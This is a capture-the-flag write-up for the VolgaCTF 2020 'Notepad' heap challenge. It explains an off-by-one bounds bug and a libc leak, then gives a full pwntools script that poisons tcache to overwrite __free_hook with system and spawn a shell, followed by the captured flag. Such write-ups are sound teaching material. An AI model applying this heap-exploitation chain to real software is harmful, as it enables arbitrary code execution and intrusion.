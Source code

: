 
# Notepad- -
> xikhud, 28/03/2020.

## Hint
Basic Use after free problem.

## Vulnerability
There is an off-by-one error when we update or view the tab, this lets us to leak the libc, and make malloc return an arbitrary address.
```cpp
unsigned __int64 __fastcall view_tab(book *a1, __int64 a2)
{
		//  truncated
  if ( v3 >= 0 && v3 <= (signed __int64)a1->tab_count ) // -> should be "<" instead of "<="
  {
    write(1, a1->tabs[v3].data, a1->tabs[v3].size);
  }
		// ......
}
```

## Plan
First we malloc a chunk that is not in tcache range ( > 1024 bytes is enough).
Then we malloc a random chunk so that when we free the chunk above, it doesn't merge with top chunk.
Then we free the first chunk, use the off-by-one error to leak "main_arena + 96".
Then use libc data base, we know that the version of the libc is 2.27.
Then we leak the libc base address. Now we get all the addresses we need.
With UAF vulnerbility, we modify the tcache, make malloc return &__free_hook.
Replace __free_hook with system address, when we call free("/bin/sh"), we will have a shell.


## Final Solution
```python
from pwn import *

#context.log_level = 'DEBUG'
#p = process('./notepad')
p = remote('notepad.q.2020.volgactf.ru', 45678)
libc = ELF('libc.so.6', checksec=False)

p.sendlineafter('[q]uit\n', 'a')
p.sendlineafter('name: ', '/bin/sh')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '1') # --------> switch to book number 1

def add(name, size, data):
    p.sendlineafter('[q]uit\n', 'a')
    p.sendafter('name: ', name)
    p.sendlineafter('): ', str(size))
    p.sendafter('data: ', data)

def delete(index):
    p.sendlineafter('[q]uit\n', 'd')
    p.sendlineafter('delete: ', str(index))

def view(index):
    p.sendlineafter('[q]uit\n', 'v')
    p.sendlineafter('view: ', str(index))
    r = p.recvuntil('Operations').replace('Operations', '')
    return r

def update(index, use_ntn, ntn, use_ndl, ndl, data):
    p.sendlineafter('[q]uit\n', 'u')
    p.sendlineafter('update: ', str(index))
    if not use_ntn:
        ntn = ''
    p.sendlineafter('skip): ', ntn)
    ndl = str(ndl)
    if not use_ndl:
        ndl = ''
    p.sendlineafter('same): ', ndl)
    p.sendafter('data: ', data)


add('xikhud\n', 1200, 'AAAAAAAA')

p.sendlineafter('[q]uit\n', 'q')

p.sendlineafter('[q]uit\n', 'a')
p.sendlineafter('name: ', 'book 2')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '2') # -----------> switch to book number 2

add('xikhud2\n', 0x90, 'BBBBBBBB') # --------> create top chunk
delete(1)
r = view(1)[:6] + '\x00\x00'  # ------------> leak main_arena + 96
r = u64(r)
log.info('main_arena + 96: 0x%X' % r)
base = r - 96 - 0x10 - libc.symbols['__malloc_hook']
log.info('Base: 0x%X' % base)
system = base + libc.symbols['system']
free_hook = base + libc.symbols['__free_hook']

add('xikhud\n', 1200, 'AAAAAAA') # ----------> pop the first chunk from unsorted bin
                                 # ----------> so that next malloc return a new chunk

add('last\n', 0x20, 'here')

p.sendlineafter('[q]uit\n', 'q')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '2') #  ----------> switch to book number 2

add('xikhud3\n', 0x20, 'top') #   ---------> new top chunk

p.sendlineafter('[q]uit\n', 'q')
p.sendlineafter('[q]uit\n', 'p')
p.sendlineafter('pick: ', '1') # ----------> switch to book number 1

delete(2)
update(2, False, ' ', False, ' ', p64(free_hook))  # modify tcache struct
add('last\n', 0x20, '/bin/sh\x00')

add('ZZZZ\n', 0x20, p64(system)) # ----> __free_hook = &system
delete(2) # -------> this call free("/bin/sh")

p.interactive()

# flag: VolgaCTF{i5_g1ibc_mall0c_irr3p@rable?}
```